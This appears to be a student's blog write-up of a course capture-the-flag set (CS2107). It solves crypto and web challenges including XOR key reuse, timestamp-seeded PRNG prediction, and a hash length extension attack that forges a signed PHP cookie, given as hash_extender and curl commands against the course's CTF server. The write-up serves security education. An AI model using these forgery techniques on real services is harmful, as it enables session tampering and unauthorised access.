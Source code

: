 ```yaml
---
layout: post
published: true
title: CS2107 - CTF 1
---
```

# Useful links
- [Binary to ascii](https://www.rapidtables.com/convert/number/binary-to-ascii.html)
- [Binary to hex](https://www.rapidtables.com/convert/number/binary-to-hex.html)
- [XOR cal](https://onlinebinarytools.com/xor-binary-values)
- [Not convert](https://www.browserling.com/tools/binary-not)
- [Word Counter](https://wordcounter.net/)

# Hash it up
1. `sha256sum hashItUp.png`

![CS2107-CTF1-1.PNG]({{site.baseurl}}/img/CS2107-CTF1-1.PNG)

Flag: `flag{fca92a7006aa0c356ede1d323652aa95f1029c86cdc77ac707a991e0f11a8ada}`

# Decrypt me
1. Just `openssl rsautl -decrypt -in flag.txt.enc -out decrypted.txt -inkey cs2107.pem`
Flag: `flag{k33p_y0ur_pr1v473_k3y_2020deed}`



# NORacle

1. Asking to oracle:

- 256Character


Question:
```
000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
```

Ans:
```
100110011001001110011110100110001000010010011110110110111001010010100000101111101001000110111011101000001010011011001111110011111100111110001010100010101010000010001100101101111011111110110011100100111010000011000110110011001000101110100000110010001001011111001100101000001001100110010011101111101011100010100000101110011000110111001111100100101010000010001011101101111100110010100000100100011100111110001101101111101011110011001110100110101101111010000010
```



2. Just not it to get the plaintext

```	                  		       011001100110110001100001011001110111101101100001001001000110101101011111010000010110111001000100010111110101100100110000001100000011000001110101011101010101111101110011010010000100000001001100011011000101111100111001001100110111010001011111001101110110100000110011010111110110011001101100010000010100011101011111010001100111001000110000011011010101111101110100010010000011001101011111011011100011000001110010010000010100001100110001011001010010000101111101
```

3. 
Plug in the binary string into some online binary to ascii converter: [Link](https://www.rapidtables.com/convert/number/binary-to-ascii.html)


Final flag: `flag{a$k_AnD_Y000uu_sH@Ll_93t_7h3_flAG_Fr0m_tH3_n0rAC1e!}`


> This works because refer to the nor table.

![CS2107-CTF1-2.PNG]({{site.baseurl}}/img/CS2107-CTF1-2.PNG)


# Streaming

![CS2107-3-17.png]({{site.baseurl}}/img/CS2107-3-17.png)

2. Recieved
ciphertext: 0x5043293d7eae13d76577e6b242bac1bca18d24b1a267caadeeeac9fa6618abb65bd4f4d98307b0e9
encrytped flag: 0x362f485a05ea23882b47b2ed3089b489f2d26f82db38ac9d9cb59acd142bebdb04b7c589eb34c294


Formula:
k - key (Randomnised and hidden)
A - My input (We have this) 
Return cipher text: (A xor k) 
Return Encripted: (F xor k)


Getting the Flag:
- Xor Ciphertext and Encrypted flag
- Xor the answer ciphertext


Reason:
- (A XOR K)(F XOR K) => This will cancel out the K which results in (A XOR F XOR 0)..
- Anything XOR 0 is itself, therefore we are left with (A XOR F)
- We can get F by Xoring the (A XOR F) with A since A will cancel out with each other

Flag: `flag{D0_N0T_r3u5S_K3y_f0r_S7r3@m_c1Ph3r}`


# Brute force
![CS2107-3-18.png]({{site.baseurl}}/img/CS2107-3-18.png)



final flag: `flag{8405a020cb400c48515ec3e2f9d823af}`


# Prohpet

Code used:
```python
    date_str2 = "2020-09-13 15:41:28"
    date_dt2 = datetime.datetime.strptime(date_str2, '%Y-%m-%d %H:%M:%S')
    print(get_epoch_seconds(date_dt2))
     # Seed PRNG with current time
    random.seed(get_epoch_seconds(date_dt2))

    # Five attempts to guess my random number
    fakeAnswer = int(random.random() * 133333333333337)
    print("Fake answer: " + str(fakeAnswer))
```
- Just paste the time stamp string provided before

Flag: `flag{R@nDoM_1s_n0t_r34lly_r4nd0m_Y3@H!}`

# Easy cook Book

1. The first 16 characters entered will become the hash 
2. The recipe is stored in the `<ipaddress>/lookup/<hash>
3. Hash is stored as the username in the cookie when the input is entered
4. We will realised the file name is the hash for lookup
5. Take the first 32 characters of the file name we want `tasty_flag_recip` and take the first 32 characters in the hash
6. Take the remaining characters `e.txt` and get the whole hash
7. Appending the two hash together and use it in the website as shown in 2)

Flag: `flag{Gu3SS_1_MU3T_3t0P_Us1Ng_3C8!}`

# Hacker

- Decode cookie hacker: `console.log(decodeURIComponent("O%3A6%3A%22Hacker%22%3A2%3A%7Bs%3A17%3A%22%00Hacker%00show_flag%22%3Bb%3A0%3Bs%3A16%3A%22%00Hacker%00username%22%3Bs%3A10%3A%22hacker1337%22%3B%7D"))`

> This would yield the following json: `console.log(encodeURIComponent('O:6:"Hacker":2:{s:17:"Hackershow_flag";b:0;s:16:"Hackerusername";s:10:"hacker1337";}'))`

- Encode cookie hacker: `console.log(encodeURIComponent('O:6:"Hacker":2:{s:17:"Hackershow_flag";b:1;s:16:"Hackerusername";s:10:"hacker1337";}'))`

> Notice how the b is change to 1 (This is because this field is the set_flag variable)

Download hash_extender: https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks

- Run code from hashing program: `./hash_extender --data O%3A6%3A%22Hacker%22%3A2%3A%7Bs%3A17%3A%22%00Hacker%00show_flag%22%3Bb%3A0%3Bs%3A16%3A%22%00Hacker%00username%22%3Bs%3A10%3A%22hacker1337%22%3B%7D --data-format html --signature 367f4643e26f0820db070629f43a5e6a614d778a5f1fd68d1fe1ce2d00b3934d --signature-format hex --append %20O%3A6%3A%22Hacker%22%3A2%3A%7Bs%3A17%3A%22%00Hacker%00show_flag%22%3Bb%3A1%3Bs%3A16%3A%22%00Hacker%00username%22%3Bs%3A10%3A%22hacker1337%22%3B%7D --append-format html --secret 32 --format sha256 --out-data-format html`
	- Data: Original hacker cookie data encoded html string
    - signature: Cookie encoded
    - Appended data: New cookie (Encoded with flag = 1)
   

- Curl command: `curl -v --cookie "signature=d75231d2509f6612c149996756e35dbed961e6dbf5c428f74733b3715f49dce1; hackers=O%3a6%3a%22Hacker%22%3a2%3a%7bs%3a17%3a%22%00Hacker%00show%5fflag%22%3bb%3a0%3bs%3a16%3a%22%00Hacker%00username%22%3bs%3a10%3a%22hacker1337%22%3b%7d%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%03%c0+O%3a6%3a%22Hacker%22%3a2%3a%7bs%3a17%3a%22%00Hacker%00show%5fflag%22%3bb%3a1%3bs%3a16%3a%22%00Hacker%00username%22%3bs%3a10%3a%22hacker1337%22%3b%7d" http://ctf.nus-cs2107.com:2771`

Flag: `flag{Gr34t_woRk_h0Pe_Y0U_L3arNt_@_10t_Solv1ng_tHiS_cHalleNg3!}`

